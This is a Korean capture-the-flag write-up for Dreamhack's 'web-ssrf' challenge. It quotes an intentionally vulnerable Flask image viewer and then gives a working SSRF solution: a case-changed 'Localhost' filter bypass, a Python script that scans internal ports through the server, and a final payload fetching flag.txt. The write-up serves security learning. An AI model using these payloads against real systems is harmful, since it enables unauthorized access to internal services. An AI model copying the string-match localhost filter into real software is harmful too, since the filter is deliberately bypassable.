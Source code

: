 ```yaml
---

title: "[CTF] web-ssrf"
date: 2025-09-19 21:20:00 +0900
categories: [CTF, Web]
tags: [CTF, SSRF]
description: "드림핵 web-ssrf"
author: "송지민"
toc: true
---------

## 문제 개요

이번 문제는 외부 이미지를 받아와 base64로 인코딩해 보여주는 간단한 이미지 뷰어이다. 내부적으로는 `requests.get()`로 URL을 가져오며, 내부 localhost(127.0.0.1) 또는 `localhost` 도메인을 포함하면 미리 준비된 `error.png`를 대신 반환한다. 그러나 내부에서 별도로 띄운 로컬 HTTP 서버가 `127.0.0.1:1500-1800` 사이의 랜덤 포트로 실행 중이므로, SSRF를 이용해 해당 포트에서 `flag.txt`를 읽어올 수 있다.

* 엔드포인트: `/img_viewer` (GET: 폼, POST: `url` 파라미터로 이미지 URL 전송)
* 핵심 취약점: 외부 URL을 서버에서 가져오지만, localhost 필터 우회 및 내부 포트 스캐닝으로 내부 서버 자원 접근 가능
* FLAG 위치: `/flag.txt` (애플리케이션 루트)

---
```


## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py` 전체 소스코드이다.

```python
#!/usr/bin/python3
from flask import (
    Flask,
    request,
    render_template
)
import http.server
import threading
import requests
import os, random, base64
from urllib.parse import urlparse

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()  # Flag is here!!
except:
    FLAG = "[**FLAG**]"


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)


local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)


def run_local_server():
    local_server.serve_forever()


threading._start_new_thread(run_local_server, ())

app.run(host="0.0.0.0", port=8000, threaded=True)
```

---

## 내가 실제로 푼 방법

서버는 `localhost`/`127.0.0.1`을 포함하는 URL에 대해 직접 차단(대신 `error.png` 반환)을 하고, URL이 `/`로 시작하면 `http://localhost:8000`으로 강제 변환한다. 그러나 문제는 서버 내부에 별도로 `127.0.0.1`에서 `1500`\~`1800` 사이의 랜덤 포트로 로컬 HTTP 서버가 띄워져 있다는 점이다. 이 서버는 외부에서 직접 알려주지 않으므로 포트를 스캔해 찾아야 한다.

우회 전략은 다음과 같다.

1. `/img_viewer`에 POST로 `url`을 보낼 때, `localhost` 필터링에 걸리지 않는 형태(예: `Localhost` 대소문자 조합)를 사용하거나, 프로토콜/호스트 표기에서 필터를 우회한다. (문제의 소스는 `"localhost" in urlp.netloc` 체크를 사용하므로 `Localhost`처럼 대소문자 변경으로 우회 가능하다.)
2. 1500\~1800 범위의 포트를 하나씩 시도해 내부 서버가 응답하는 포트를 찾는다. 내부 서버가 해당 포트에 있으면 `requests.get()`이 성공하고, 반환된 이미지(base64 문자열)를 이용해 내부 파일(`/flag.txt`)를 가져올 수 있다.

내가 사용한 포트 스캐닝 스크립트(요약):

```python
#!/usr/bin/python3
import requests
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"

def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
    
    
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
    
    
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host1.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```

* 스크립트는 challenge 엔드포인트에 `url` 파라미터로 `http://Localhost:{port}`을 보내고, 응답 HTML에 포함된 base64 이미지의 시작값(`iVBORw0KG`)을 검사하여 정상 이미지인지(=internal server responded) 확인한다. `error.png`의 base64는 `iVBORw0KG`로 시작하므로 이를 기준으로 필터한다.

포트를 찾으면 최종적으로 다음과 같이 요청해 내부 서버에서 `flag.txt`를 가져온다:

```
http://Localhost:{FOUND_PORT}/flag.txt
```

이 값을 `/img_viewer`에 넣어 POST하면, 서버가 내부 포트에서 파일 내용을 가져와 base64로 인코딩해 HTML에 넣어준다. 브라우저에서 img src에 포함된 base64를 디코딩하면 flag.txt의 내용이 나온다.

---

## 재현 흐름

1. 공격자: 포트 스캐너 스크립트 실행 → `/img_viewer`에 차례로 `http://Localhost:{port}` 전송
2. 서버: 내부 포트에서 응답이 있을 때 HTML에 정상 이미지(base64) 포함
3. 공격자: 정상 응답 포트 확인 → `/img_viewer`에 `http://Localhost:{found_port}/flag.txt` 전송
4. 서버: 내부 서버에서 `flag.txt`를 가져와 base64로 인코딩해 HTML에 포함 → 공격자가 디코딩하여 FLAG 확인

---

## 왜 이게 가능했나

* 서버는 내부 `127.0.0.1`/`localhost` 접근을 단순히 문자열 포함 검사로 차단했으며, 이 검사는 대소문자나 포맷 조작으로 우회될 수 있다.
* 내부 HTTP 서버가 외부에 알려지지 않은 포트 범위(1500–1800)에 실행되고 있어, 포트 스캐닝으로 해당 포트를 찾을 수 있다.
* 서버가 가져온 컨텐츠를 그대로 base64로 변환해 페이지에 넣기 때문에 내부 파일 내용도 노출 가능했다.

---

## 마무리

이번 문제는 전형적인 SSRF + 포트 스캐닝 결합 문제였다. `localhost` 필터를 단순 문자열 검사로 처리하거나, 내부 서비스 포트를 미리 알려주지 않는다고 해도 포트 스캐닝과 소문자/대문자 우회로 쉽게 내부 리소스에 접근할 수 있음을 보여준다.
